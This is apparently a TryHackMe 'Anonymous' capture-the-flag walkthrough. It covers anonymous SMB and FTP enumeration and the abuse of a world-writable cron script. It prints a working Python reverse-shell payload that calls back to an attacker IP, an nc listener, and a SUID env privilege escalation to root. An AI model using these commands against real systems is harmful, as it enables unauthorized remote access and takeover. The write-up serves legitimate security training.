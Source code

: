 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/de6eece3-9ff2-4439-9c01-c6433e45bc04"> Anonymous | Tryhackme | Walkthrough 
date: 2023-12-15 07:00:02 +730
categories: [Write Up, TryHackMe]
tags: [anonymous,walkthrough,tryhackme,privilege-escalation,hydra,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 6</h1>

![anonymous-image-3385687945](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/bec39529-aa33-4e82-a201-a5ebe01a6d76){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }



## Nmap 

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -T4 10.10.215.229
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 07:04 EST
Nmap scan report for 10.10.215.229
Host is up (0.24s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.105.144
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 3s, deviation: 1s, median: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-14T12:05:13
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-12-14T12:05:14+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.56 seconds
```

## 1️⃣ Lets Start with SMB 👨🏻‍💻

```
smbclient -L //10.10.107.211
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

Lets Get into **pics** share 

`smbclient -N \\\\10.10.107.211\\pics`

```
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```

Download it through `mget`

```
smb: \> prompt
smb: \> mget *
getting file \corgo2.jpg of size 42663 as corgo2.jpg (87.9 KiloBytes/sec) (average 87.9 KiloBytes/sec)
getting file \puppos.jpeg of size 265188 as puppos.jpeg (470.0 KiloBytes/sec) (average 293.3 KiloBytes/sec)
```

After a hard try on those images with `strings` , `steghide` , `stegosolve` `stegseek` ended up with nothing!! 


## 2️⃣ FTP 

```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35464|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||15525|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1548 Jan 25 03:41 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

`Download all the three files with mget`

### to_do.txt
```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

### clean.sh 
```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### removed_files.log
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

## 3️⃣ Get Set GO 🏁 

so this clean.sh is attached to a cronjob basically the clean.sh removes files from /tmp directory and keep the updates in removed_files.log file 

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

## 4️⃣ Getting Reverse shell 


Payload
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.40.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Listner 
```
nc -lnvp 1234
```

```
namelessone@anonymous:~$ ls
pics  user.txt
```

## 5️⃣ Privilege Escalation

`Gtfobins`

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
